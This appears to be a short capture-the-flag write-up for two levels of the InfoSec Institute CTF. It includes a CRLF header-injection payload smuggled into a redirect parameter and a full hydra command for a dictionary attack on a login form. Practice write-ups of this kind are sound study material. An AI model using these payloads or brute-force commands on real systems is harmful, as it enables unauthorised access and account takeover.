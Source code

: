# InfoSecInstituteCTF
I wanted to go from the hardest but anyway the order is mixed

# Level13
Try adding a remote URL in the appropriate GET parameter

It's pretty strange that level13 leads to ex13-task.php, while others lead to ex#.php :)
Lets visit exp13.php
"Get a Hint"

Lets try few tricks :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13-task.php?redirect=test


Nothing


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=test


Bingo :)
Now we have to inject the header :


http://ctf.infosecinstitute.com/ctf2/exercises/ex13.php?redirect=%0d%0a%20CostumHeader:INJECTED



# Level12


This was a very easy one, dictionary attack on POST request, lets hit hydra :)


https://i.imgur.com/pzbvkWd.png


Command:


hydra ctf.infosecinstitute.com http-form-post"/ctf2/exercises/ex12.php:username=^USER^&password=^PASS^&logIn=Login:combination" -L users.txt -P password.txt -t 10 -w 30 -o hydra-http-post-attack.txt

